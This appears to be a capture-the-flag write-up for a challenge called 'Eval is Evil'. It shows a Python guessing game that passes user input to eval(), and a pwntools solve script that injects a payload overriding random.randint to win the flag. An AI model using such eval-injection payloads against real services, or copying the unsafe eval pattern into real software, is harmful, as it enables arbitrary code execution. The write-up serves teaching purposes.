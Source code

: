 # Eval is Evil

This challenge provide us this python script:

```py
import random

def main():
    print("Let's play a game, I am thinking of a number between 0 and", 2 ** 64, "\n")
    try:
        guess = eval(input("What is the number?: "))
    except:
        guess = 0
    correct = random.randint(0, 2**64)
    if (guess == correct):
        print("\nCorrect! You won the flag!")
        flag = open("flag.txt", "r").readline()
        print(flag)
    else:
        print("\nYou lost lol")

main()
```

Here, we need to exploit the usage of `eval`. We will then override `random.randint`.

## solve.py:

```py
from pwn import *

# We use a tuple to execute multiple expressions.
# 1. override random.randint to always return 42
# 2. We guess 42
payload = '(setattr(random, "randint", lambda a,b: 42), 42)[1]'

r = remote("evalisevil.kctf-453514-codelab.kctf.cloud", 1337)
r.recvuntil("What is the number?: ")
r.sendline(payload)
r.interactive()
```
